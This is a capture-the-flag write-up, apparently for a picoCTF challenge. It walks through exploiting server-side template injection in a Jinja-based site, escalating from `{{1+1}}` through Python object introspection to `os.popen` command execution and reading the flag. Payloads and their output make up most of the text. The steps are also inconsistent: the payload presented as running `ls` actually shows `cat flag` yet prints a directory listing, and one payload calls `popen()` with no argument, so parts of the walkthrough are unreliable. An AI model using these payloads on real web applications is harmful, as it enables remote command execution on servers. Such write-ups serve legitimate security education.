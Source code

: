 Here, we are given a basic website. The challenge strongly hints that a template is being used for Server-Side Template Injection (SSTI).

A common template injection would check to see what syntax is accepted. Jinja in Python is very popular, and uses `{{}}` syntax to execute Python code. So let's attempt the following:

```
{{1 + 1}}
```

Upon execution, `2` is displayed on the page.

Great, now we get into the heart of an SSTI attack. The idea is that we want to get into the methods of an object in Python until we reach some system functionality, and then manipulate it to perform RCE.

Let's do something simple like using the object `1`. From here, we can extract its class:

```
{{1.__class__}}
```

We get:

```
<class 'int'>
```

Now, let's continue this process:

```
{{1.__class__.__base__}}
```

This gives us:

```
<class 'object'>
```

And one more time to extract subclasses:

```
{{1.__class__.__base__.__subclasses__()}}
```

Now we get a long list of subclasses. Our goal here is to get one that would eventually utilize the `sys` library. Practically speaking, searching for things like `os` is a good idea, but after some searching, `subprocess.Popen` was found. After trial and error, the index of it was found to be `356`.

`os.popen()` is a command we wish to use so we can perform system commands. However, actually getting to the `popen` Python command is a bit awkward. We actually have to navigate through the subprocess's `sys` library to get the `os` command and perform the `popen` method. It looks like this (all one line):

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen() }}
```

From here, we can finally execute Linux commands. Let's do an `ls`:

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```

We get the following result:

```
__pycache__ app.py flag requirements.txt
```

Finally, let's extract the flag:

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```

Solution: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}**